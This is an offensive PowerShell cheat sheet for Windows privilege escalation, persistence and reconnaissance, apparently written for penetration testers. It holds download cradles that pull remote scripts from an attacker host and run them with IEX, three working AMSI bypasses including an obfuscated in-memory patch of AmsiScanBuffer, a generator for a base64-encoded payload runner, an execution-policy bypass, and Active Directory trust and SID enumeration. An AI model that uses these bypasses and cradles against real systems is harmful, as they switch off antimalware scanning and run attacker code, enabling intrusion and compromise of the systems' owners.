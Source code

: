# powershell

#plateform/windows #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

## background command

```powershell
$b={Start-Process <cmd> -ArgumentList @(<quoted_arg_list>)} ; Start-Job -ScriptBlock $b
```


## Download cradle
```powershell
(new-object system.net.webclient).downloadstring('http://<ip>/<script>') | IEX
```

## Get file in trash
```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```

## Get process
```powershell
Get-Process
```

## Get Proxy
```powershell
[System.Net.WebRequest]::DefaultWebProxy.GetProxy("http://<ip>/<url>")
```

## Get language mode
```powershell
$ExecutionContext.SessionState.LanguageMode
```

## Bypass AMSI with _amsiContext_ (powershell only)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

## Bypass AMSI with _AmsiInitFailed_ (powershell only)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*InitFailed") {$f=$e}};$f.SetValue($null,$true)
```

## Bypass AMSI by patching (work for .NET binaries too)

more infos here : https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/

```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ZQCUW
$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```

## Verify PPL
```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```

## Verify application whitelisting
```powershell
Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```

## show forest trust
```powershell
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
```

## Get domain trust
```powershell
Get-DomainTrust -Domain <domain>
```

## Get domain SID
```powershell
Get-DomainSID -domain <sid>
```

## hostrecon
https://github.com/dafthack/HostRecon

```
(new-object system.net.webclient).downloadstring('http://<lhost>/HostRecon.ps1') | IEX; Invoke-HostRecon
```

## privesccheck
https://github.com/itm4n/PrivescCheck

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/PrivescCheck.ps1') | IEX; Invoke-PrivescCheck
```

## privesccheck - local
https://github.com/itm4n/PrivescCheck

```powershell
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

## powershell view assemblies
```powershell
[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname
```

## powershell get proxy address
```powershell
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
```

## powershell set proxy
```powershell
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://<proxaddress|$proxyAddr>")
```

## powershell - generate base64 encoded payload download runner
#plateform/linux #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

```powershell
pwsh -Command '$text = "(New-Object System.Net.WebClient).DownloadString(''http://<lhost>/<file>'') | IEX";$bytes = [System.Text.Encoding]::Unicode.GetBytes($text);$EncodedText = [Convert]::ToBase64String($bytes);$EncodedText'
```

